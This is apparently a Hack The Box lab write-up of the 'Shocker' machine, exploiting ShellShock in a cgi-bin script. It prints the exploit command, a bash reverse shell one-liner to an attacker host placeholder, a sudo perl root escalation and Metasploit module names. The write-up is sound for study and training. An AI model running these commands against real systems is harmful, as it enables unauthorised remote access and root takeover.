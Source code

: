```yaml
---
layout: post
title: "Shocker"
date: 2020-09-21 22:00:00 -0600
categories: HTB OSCP
tags: HTB Shocker Linux ShellShock
---
```


Shocker is an easy level box on Hack The Box.

## Enumeration

![site](/assets/images/shocker/site.png)

Same as every machine we are going to start with our autorecon scan. This revealed only 2 open ports, port 80 and port 2222. Nikto and GoBuster didn't show much on their scans other than a `cgi-bin` folder so I decided to throw dirbuster at it with php and sh for extensions to see if there are scripts buried there.

![dibuster](/assets/images/shocker/dirbuster.png)

This returned a `user.sh` script in the cgi-bin folder, not having much to go on and knowing that machine names are sometimes a hint for machines I decided to poke at this script and an older vulnerability know as [ShellShock](<https://en.wikipedia.org/wiki/Shellshock_(software_bug)>). This took advantage of advantage of a bug in bash to execute arbitrary commands. In my digging I found a tool for finding ShellShock exploitable scripts with the name [shocker](https://github.com/nccgroup/shocker). I was able to use this to exploit our machine with the following command `python shocker.py -H 10.10.10.56 --command /bin/ls -c /cgi-bin/user.sh`

![shocker](/assets/images/shocker/shocker.png)

Now that we have command execution on the machine we can try to pop a shell. [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has my favorite reverse shell cheat sheet. I decided to go the simple route and try a basic bash reverse shell, we can attempt to get a shell with `/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1` This ended up getting us our shell as the user Shelly

## Elevate

Now that we have a shell I generally default to a `sudo -l` as my first enumeration step and in this case we found some really low hanging fruit for escalation. We can see this user can sudo perl without a password.

![sudo](/assets/images/shocker/user.png)

Referencing [GTFOBINS](https://gtfobins.github.io/) we can see a fairly simple perl command to get a shell `sudo perl -e 'exec "/bin/sh";'`. Running this gives us our root shell and we can grab our flags and get out.

![got root?](/assets/images/shocker/got_root.png)

## Metasploit

I wanted to try to a metasploit module for this one to see if I could get it to work the "easy" way as well. We can start off by searching for a metasploit module for shellshock. There is a auxiliary module for scanning so I decided to give that a go first, start off by doing a `use auxiliary/scanner/http/apache_mod_cgi_bash_env`. We need to set the RHOSTS and TARGETURI values here.

![scanner](/assets/images/shocker/aux.png)

We want to use `exploit/multi/http/apache_mod_cgi_bash_env_exec`. For this to work we need to set basically the same payloads as before, RHOSTS and TARGETURI. Also make sure you have the right LHOST set, it usually defaults to your primary adapter. You can set it to your VPN tunnel with `set LHOST tun0`. Once we have our options set we can fire off the exploit and catch our shell.

![meterpreter](/assets/images/shocker/got_root_ms.png)
